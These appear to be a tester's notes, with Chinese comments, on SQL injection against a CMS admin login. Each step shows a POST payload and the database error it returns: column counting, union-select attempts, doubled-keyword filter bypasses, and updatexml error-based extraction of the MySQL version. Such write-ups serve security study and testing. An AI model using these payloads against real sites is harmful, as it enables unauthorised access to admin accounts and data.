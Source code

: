 user=' order by 5 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

输入的密码不正确

### 有5列

user=' union select 1,2,3,4,5 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1,2,3,4,5 #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='' 1,2,3,4,5 #' limit 0,1</p><p

user=-1' union select 1,2,3,4,5 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1,2,3,4,5 #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='-1' 1,2,3,4,5 #' limit 0,1</p><p

user=-1' ununionion seselectlect 1,2,3,4,5 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'ununionion select 1,2,3,4,5 #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='-1' ununionion select 1,2,3,4,5 #' limit 0,1</

user=-1' union seselectlect 1,2,3,4,5 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'select 1,2,3,4,5 #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='-1'select 1,2,3,4,5 #' limit 0,1

user=-1' uNioN seselectlect 1,2,3,4,5 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'select 1,2,3,4,5 #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='-1'select 1,2,3,4,5 #' limit 0,1

unnion可能绕不过了

user=admin' and updatexml(1,concat(0x7e,(selselectect version())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'updatexml(1,concat(0x7e,(select version())),1) #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin'updatexml(1,concat(0x7e,(select version())),1) #' limit 0,1

操作数据库失败XPATH syntax error: '~5.5.61-0ubuntu0.14.04.1'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select version())),1) #' limit 0,1</p><p
